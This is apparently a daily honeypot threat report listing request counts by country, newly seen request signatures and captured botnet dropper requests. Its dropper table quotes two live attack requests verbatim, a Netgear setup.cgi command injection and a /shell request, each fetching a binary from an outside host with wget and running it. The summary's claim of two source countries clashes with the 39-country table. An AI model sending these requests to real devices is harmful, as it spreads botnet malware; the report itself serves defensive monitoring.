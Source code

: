 ```yaml
---
title: "Report: 2025-06-28 "
date: 2025-06-28
desciption: "Report: 2025-06-28" 
tags: [repport, daily]
---
```



# Daily Report: 2025-06-28 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 2 stage 1 IP address(es), linked to 2 dropper URL(s).  

There are 15 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 691 requests were recorded during the day, originating from 2 different countries, with a peak of 304 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|------------------|--------------------|

## botnet_dropper_behaviour
| remote_addr   | request                                                                                                                                                                     |
|:--------------|:----------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 61.3.104.188  | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://61.3.104.188:47840/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0 |
| 141.98.11.83  | GET /shell?rm arm7;wget http://141.98.11.83/m/arm7;chmod 777 arm7;./arm7 arm7 HTTP/1.1                                                                                      |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                    |
|----:|----------------------:|:-----------------------------------------------------------|
|  97 |                     1 | \x00\x0E\x08T\xC5\xAE \xB1\x82p\x10\x00\x00\x00\x00\x00    |
|  98 |                     1 | \x00\x0E8T\xC5\xAE \xB1\x82p\x10\x00\x00\x00\x00\x00       |
| 103 |                     1 | \x00\x0E\x08\x859hQ_\xFFX\x9F\x00\x00\x00\x00\x00          |
| 106 |                     1 | \x00\x0E\x08\xBC\xBE\xDEt\x17&\xC1\xE3\x00\x00\x00\x00\x00 |
| 107 |                     1 | \x00\x0E\x08\x22\xBC\x98=x\x06\x9D9\x00\x00\x00\x00\x00    |
| 108 |                     1 | \x00\x0E8\xBC\xBE\xDEt\x17&\xC1\xE3\x00\x00\x00\x00\x00    |
| 112 |                     1 | \x00\x0E8\x22\xBC\x98=x\x06\x9D9\x00\x00\x00\x00\x00       |
| 120 |                     1 | \x00\x0E8\x859hQ_\xFFX\x9F\x00\x00\x00\x00\x00             |
| 122 |                     1 | GET /odinhttpcall1751112573 HTTP/1.1                       |
| 123 |                     1 | GET /OdinHttpCall1751112573 HTTP/1.1                       |
| 124 |                     1 | GET /Odin/http/call1751112573 HTTP/1.1                     |
| 131 |                     1 | \x00\x0E\x08\xF4I\xC7}P\xD2n#\x00\x00\x00\x00\x00          |
| 133 |                     1 | \x00\x0E8\xF4I\xC7}P\xD2n#\x00\x00\x00\x00\x00             |
| 198 |                     1 | GET /y9u5 HTTP/1.1                                         |
| 199 |                     1 | GET /NnHY HTTP/1.1                                         |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   304 | US                 |
|  1 |                    53 | CN                 |
|  2 |                    50 | BG                 |
|  3 |                    49 | DE                 |
|  4 |                    37 | NL                 |
|  5 |                    25 | JP                 |
|  6 |                    20 | FR                 |
|  7 |                    18 | GB                 |
|  8 |                    13 | SC                 |
|  9 |                    12 | SG                 |
| 10 |                    12 | LT                 |
| 11 |                    11 | HK                 |
| 12 |                     8 | PL                 |
| 13 |                     7 | BR                 |
| 14 |                     7 | BE                 |
| 15 |                     7 | RU                 |
| 16 |                     6 | ZA                 |
| 17 |                     5 | AO                 |
| 18 |                     5 | KR                 |
| 19 |                     4 | MD                 |
| 20 |                     4 | GH                 |
| 21 |                     4 | VN                 |
| 22 |                     4 | IN                 |
| 23 |                     3 | KZ                 |
| 24 |                     3 | IL                 |
| 25 |                     3 | NG                 |
| 26 |                     2 | IE                 |
| 27 |                     2 | SE                 |
| 28 |                     2 | CA                 |
| 29 |                     2 | KW                 |
| 30 |                     1 | PE                 |
| 31 |                     1 | ES                 |
| 32 |                     1 | ID                 |
| 33 |                     1 | BY                 |
| 34 |                     1 | MY                 |
| 35 |                     1 | TH                 |
| 36 |                     1 | PA                 |
| 37 |                     1 | PT                 |
| 38 |                     1 | IT                 |
